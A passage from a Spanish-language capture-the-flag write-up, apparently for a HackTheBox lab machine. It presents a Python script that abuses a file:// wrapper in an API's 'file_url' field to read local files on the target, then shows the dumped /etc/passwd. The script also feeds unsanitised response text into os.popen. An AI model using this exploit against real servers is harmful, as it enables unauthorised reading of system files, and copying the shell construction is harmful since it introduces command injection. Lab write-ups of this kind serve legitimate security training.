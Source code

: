 Intentamos apuntar a arhivos locales que entre tantos tipos de bypass se pudo con el wrapper file://. Para esto hacemos un script donde podamos obtener el resultado en texto claro en python.

```python
import requests
import sys
import os
import base64
import re

target_dir = sys.argv[1]

json_data = {
	'action': 'b64encode',
	'file_url' : 'file://'+ target_dir
}


response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
#print(response.text)

bash = "echo %s | awk '{print $2}' FS=':' | tr -d '}'" % response.text

output = os.popen(bash).read()

base64_string = output
base64_bytes = base64_string.encode("ascii")

sample_string_bytes = base64.b64decode(base64_bytes)
sample_string = sample_string_bytes.decode("ascii")

print(sample_string)

```
Con esto ya podemos obtener los archivos de la máquina.

```shell
sudo python3 request.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
```